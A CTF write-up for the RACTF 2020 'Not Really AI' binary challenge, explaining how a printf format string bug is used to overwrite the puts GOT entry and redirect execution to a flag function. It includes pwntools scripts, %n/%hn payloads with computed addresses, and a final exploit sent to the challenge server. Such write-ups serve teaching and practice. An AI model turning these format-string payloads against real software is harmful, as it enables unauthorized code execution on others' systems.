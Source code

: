 ```yaml
---
layout: post
title:  "Not Really AI"
date:   2020-06-11 12:13:37 -0300
categories: [CTF,PWN,RACTF 2020]
author: rogeriobastos
event: "RACTF 2020"
tags: [CTF,PWN,RACTF 2020]
description: "Writeup Not Really AI"
image: ""
---
```


# RACTF 2020

## Not Really AI (binary)

### Description

> Exploit the service to get the flag.
>
> [nra](nra)

200 points

### Solution Summary

Exploit format string vulnerability [1](https://medium.com/swlh/binary-exploitation-format-string-vulnerabilities-70edd501c5be) to overwrite GOT [2](https://ropemporium.com/guide.html#Appendix%20A) and redirect code execution so that _flaggy_ function is executed.

### Walkthrough

The binary is a 32bits file with no protection.

```
$ pwn checksec nra
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

The program read some user data but there isn't buffer overflow.

```
$ ./nra 
How are you finding RACTF?
bla                    <= READ DATA
I am glad you
bla                    <= PRINT IT

We hope you keep going!
```

However it prints the input data in an insecurely way leading to format string attack.

```
printf@plt (
   [sp + 0x0] = 0xffffd210 → "my input data\n",
   [sp + 0x4] = 0x00000200
)
```

And there is a call to _puts_ after that, so you can replace the address of _puts_ in GOT by the address of _flaggy_ function
This way _flaggy_ will be executed when program calls _puts_.

```
=> 0x08049225 <+99>:	call   0x8049030 <printf@plt>
   0x0804922a <+104>:	add    esp,0x10
   0x0804922d <+107>:	sub    esp,0xc
   0x08049230 <+110>:	lea    eax,[ebx-0x1fcf]
   0x08049236 <+116>:	push   eax
   0x08049237 <+117>:	call   0x8049060 <puts@plt>

```

You can get the address of _flaggy_ function and GOT entries using GDB:

```
gef➤  b * main
gef➤  run
[...]
gef➤  print flaggy
$3 = {<text variable, no debug info>} 0x8049245 <flaggy>
[...]
gef➤  got

GOT protection: Partial RelRO | GOT functions: 8
 
[...]
[0x804c018] puts@GLIBC_2.0  →  0x8049066
[...]

```

### Exploit

First of all you have to find the offset in stack to the string you provide as input data. Using `AAAA%N$x` as input data, where `N` is number that will be incremented in a loop. When program prints `41414141` (`AAAA` in hex) you find the right position.

```python
from pwn import *

context.log_level = 'error'

for i in range(10):
    sh = process('./nra')
    sh.readline()
    sh.sendline(f'AAAA%{i}$x')
    sh.readline()
    print(f'%{i}$x', sh.readline().decode()[4:], end='')
```

Looking at the output you find `41414141` when `N` is `4`. So you can refer to the first four bytes using `4$` in format string.

```
%0$x %0$x
%1$x 200
%2$x f7f2b5c0
%3$x 80491d1
%4$x 41414141
%5$x 78243525
%6$x a2e5000a
%7$x f7fa5198
%8$x 0
%9$x f7f923ec
```

Now you can use the memory address of where you want to write as first four bytes followed by a format string who will write the address of _flaggy_ function.

I start with the follow payload, but the program output is so long that it only works locally. Connection to the CTF server is droped before flag is printed.

```python
payload =  p32(0x0804c018)         # elf.got['puts']

payload += b'aaaaa%134517308d%4$n' # %4$n writes 0x08049245 (address of flaggy function)
```

By using length modifier, you are able to control the amount of data written by
the `%n` formatter, so you can write a byte, two-bytes, four-bytes and so on. 
I decide to write two-bytes (halt address) in `0x0804c018` and two-bytes (the
other halt) in `0x0804c018 + 2`, this way the program output is smaller and I
get the flag.

```python
payload =  p32(0x0804c018)         # elf.got['puts']

payload += p32(0x0804c01a)         # elf.got['puts'] + 2

payload += b'%2044d%5$hn'          # writes 0x0804

payload += b'%35393d%4$hn'         # writes 0x9245
```

The final exploit was:


```python
from pwn import *

payload =  p32(0x0804c018)         # elf.got['puts']

payload += p32(0x0804c01a)         # elf.got['puts'] + 2

payload += b'%2044d%5$hn'          # writes 0x0804

payload += b'%35393d%4$hn'         # writes 0x9245


#sh = process('./nra')
sh = remote('88.198.219.20', 62051)
sh.readline()
sh.sendline(payload)
sh.stream()
```
